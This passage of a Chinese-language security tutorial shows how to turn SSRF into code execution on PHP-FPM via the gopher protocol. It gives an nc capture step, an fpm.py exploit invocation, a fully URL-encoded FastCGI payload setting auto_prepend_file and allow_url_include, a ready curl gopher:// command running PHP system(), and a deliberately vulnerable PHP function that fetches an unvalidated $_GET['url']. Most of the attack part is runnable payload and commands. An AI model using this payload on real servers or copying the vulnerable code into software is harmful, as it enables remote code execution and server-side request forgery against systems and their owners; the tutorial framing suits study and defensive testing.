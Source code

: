 Fixed in 7.45.0 - October 7 2015

> gopher: don't send NUL byte

#### 3.2.2 转换为Gopher的EXP

监听一个端口的流量 `nc -lvv 2333 > 1.txt`，执行EXP，流量打到2333端口

```python
python fpm.py -c "<?php system('echo sectest > /tmp/1.php'); exit;?>" -p 2333 127.0.0.1 /usr/local/nginx/html/p.php
```

urlencode

```
f = open('1.txt')
ff = f.read()
from urllib import quote
print quote(ff)
```

得到gopher的EXP

```bash
%01%01%16%21%00%08%00%00%00%01%00%00%00%00%00%00%01%04%16%21%01%E7%00%00%0E%02CONTENT_LENGTH50%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%1BSCRIPT_FILENAME/usr/local/nginx/html/p.php%0B%1BSCRIPT_NAME/usr/local/nginx/html/p.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%1BREQUEST_URI/usr/local/nginx/html/p.php%01%04%16%21%00%00%00%00%01%05%16%21%002%00%00%3C%3Fphp%20system%28%27echo%20sectest%20%3E%20/tmp/1.php%27%29%3B%20exit%3B%3F%3E%01%05%16%21%00%00%00%00
```

执行EXP

```bash
curl 'gopher://127.0.0.1:9000/_%01%01%16%21%00%08%00%00%00%01%00%00%00%00%00%00%01%04%16%21%01%E7%00%00%0E%02CONTENT_LENGTH50%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%1BSCRIPT_FILENAME/usr/local/nginx/html/p.php%0B%1BSCRIPT_NAME/usr/local/nginx/html/p.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%1BREQUEST_URI/usr/local/nginx/html/p.php%01%04%16%21%00%00%00%00%01%05%16%21%002%00%00%3C%3Fphp%20system%28%27echo%20sectest%20%3E%20/tmp/1.php%27%29%3B%20exit%3B%3F%3E%01%05%16%21%00%00%00%00'
```

## 四、漏洞代码

curl造成的SSRF

```php
function curl($url){  
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

$url = $_GET['url'];
curl($url);  
```
